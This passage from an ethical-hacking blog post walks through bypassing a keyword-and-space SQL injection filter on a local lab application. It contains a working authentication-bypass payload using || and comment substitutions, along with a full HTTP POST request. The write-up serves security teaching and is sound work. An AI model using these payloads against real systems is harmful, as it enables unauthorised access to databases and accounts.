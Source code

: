 As we can see, there is an admin site to which we do not have access and
a normal site where our test cases are.

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/ethical-hacking/"
title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>
</div>

## SQLi bypass attacks

There are three test cases; the first one is the simplest. It filters
the `OR|AND` keywords and also the space character.

**First SQLi filter.**

``` PHP
if(preg_match('/or|and| /i',$pass)) exit("<script type='text/javascript'>alert('Wrong');</script>");
```

The username is not injectable because it uses a prepared statement
(this was intended to show the correct way of doing queries). If we put
any of those characters into the query, it should respond with a `Wrong`
alert.

To bypass this, we need to substitute those keywords: the `OR` keyword
with the double pipe character `||`, and the `AND` keyword with the
double ampersand character `&&`. In this case, we need to `URL encode`
it because of the content type of the web application resulting in
`%26%26`. Finally, the space character can be bypassed using several
substitutions, such as the following:

1. The block comment `/**/`

2. The ascii `%09` horizontal tab character

3. The ascii `%0a` new line character

4. The ascii `%0b` vertical tab character

5. The ascii `%0c` new page character

6. The ascii `%0d` carriage return character

So, our well known SQLi payload will change to something like
`'/**/||/**/1=1#`

**first bypass.**

``` text
    POST /code/one.php HTTP/1.1
    Host: 192.168.56.2
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 44
    Origin: http://192.168.56.2
    Connection: close
    Referer: http://192.168.56.2/code/one.php
    Upgrade-Insecure-Requests: 1

    user=admin&password='/**/||/**/1%3d1%23&s=OK
```

